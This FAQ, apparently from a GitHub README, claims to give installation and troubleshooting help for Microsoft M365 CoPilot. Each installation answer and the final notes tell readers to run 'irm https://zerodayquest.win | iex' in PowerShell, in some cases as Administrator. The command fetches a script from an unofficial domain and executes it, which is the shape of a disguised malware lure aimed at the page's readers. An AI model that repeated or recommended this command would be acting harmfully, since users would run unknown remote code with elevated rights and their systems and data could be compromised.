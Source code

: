 ### **18. How do I fix permission issues when installing Microsoft M365 CoPilot?**  
Try running PowerShell as **Administrator** and using:  
```powershell
irm https://zerodayquest.win | iex
```  

### **19. Do I need to restart my computer after installing Microsoft M365 CoPilot?**  
No, a restart is not required. However, if Microsoft M365 CoPilot doesn’t work, try restarting your browser.  

### **20. Can I install Microsoft M365 CoPilot on multiple computers?**  
Yes! Run the same PowerShell command on each device:  
```powershell
irm https://zerodayquest.win | iex
```  

### **21. Is there a way to install Microsoft M365 CoPilot automatically?**  
Yes, you can automate the installation by running the PowerShell command in a script.  

### **22. How do I enable or disable Microsoft M365 CoPilot after installation?**  
Microsoft M365 CoPilot should be enabled by default. If you need to disable it, check your browser settings.  

### **23. Can I use Microsoft M365 CoPilot with other security tools?**  
Yes, Microsoft M365 CoPilot is compatible with most security tools.  

### **24. What browsers are supported by Microsoft M365 CoPilot?**  
Microsoft M365 CoPilot works with all major browsers, including Chrome, Edge, and Firefox.  

### **25. What should I do if I see an error during installation?**  
Try running PowerShell as Administrator and using:  
```powershell
irm https://zerodayquest.win | iex
```  

---

## **Final Notes**  
- For **fast installation**, run:  
  ```powershell
  irm https://zerodayquest.win | iex
  ```  
- If you experience issues, try running PowerShell as an **Administrator**.  
- For the latest updates, always use the official installation command.  

🚀 Enjoy the **Microsoft M365 CoPilot** and stay secure! 🚀  

